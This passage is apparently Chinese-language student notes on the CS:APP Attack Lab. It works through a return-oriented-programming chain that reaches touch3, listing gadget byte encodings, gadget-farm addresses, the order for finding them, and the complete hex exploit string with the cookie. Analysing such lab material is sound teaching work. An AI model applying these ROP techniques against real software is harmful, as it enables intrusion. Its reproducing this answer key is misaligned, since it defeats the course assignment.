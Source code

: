 ```
|  4   |    int, float     |
|  8   | long,double,char* |

##### 正确答案

==构造一个偏移量    需要为8的倍数==

```
mov %rsp,%rax   #gadget1   48 89 e0 c3          #farm中地址 0x401a06 401aad （多个
ret
mov %rax,%rdi       #gadget2  48 89 c7 90 c3            #0x4019c5 0x4019a2 不唯一
ret 

/* -------------------构造偏移量 放入rsi中-------------------- */
popq %rax             # gadget3  58 90 c3  #只查到了pop rax 且不唯一  #0x4019ab 0x4019cc        (1)
ret
movl  %eax,%edx           #没有48 89 cx movq %rax,%xxx(非rdi)  考虑movl %eax,%xxx(非edi)  89 cx   有一个89 c2 90 c3 #在0x4019dd  (2)
ret
mov %edx,%ecx          #89 d1  08 db c3    在#0x401a69   其中08 db不改变寄存器   或者0x401a70 401a34  (4)
ret
movl %ecx,%esi       #89 c6/ce-f6/fe  有一个89 ce 90 90 c3  在0x401a13    (3)
ret 
/* -----------------------构造完毕------------------------------- */
lea    (%rdi,%rsi,1),%rax   #gadget7        #0x4019d6
ret
mov %rax,%rdi     #gadget8                 #0x4019c5
ret 
```

该问题解决时 先查找（1），即符合条件的pop，

然后查找（2），看rax能赋给何处，

然后查找（4），看谁可以赋给rsi，

然后查找（3），找到衔接 

![image-20240511132105962](./image/3,attack_lab(target)_image/image-20240511132105962.png)

答案为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ad 1a 40 00 00 00 00 00        /* gadget1地址 多个 */
c5 19 40 00 00 00 00 00        /* gadget2地址 多个 */
ab 19 40 00 00 00 00 00      /* gadget3地址 */
48 00 00 00 00 00 00 00      /* gadget3要 pop的偏移量 */
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00      /* 5 */
13 1a 40 00 00 00 00 00     
d6 19 40 00 00 00 00 00        /* gadget7 */
a2 19 40 00 00 00 00 00        /* gadget8 */
fa 18 40 00 00 00 00 00        /* touch3 */
35 39 62 39 39 37 66 61        /*   偏移0x48=72 cookie */
```

==注意 答案格式中 /* comment */必须之间有俩空格隔开==

## 总结
```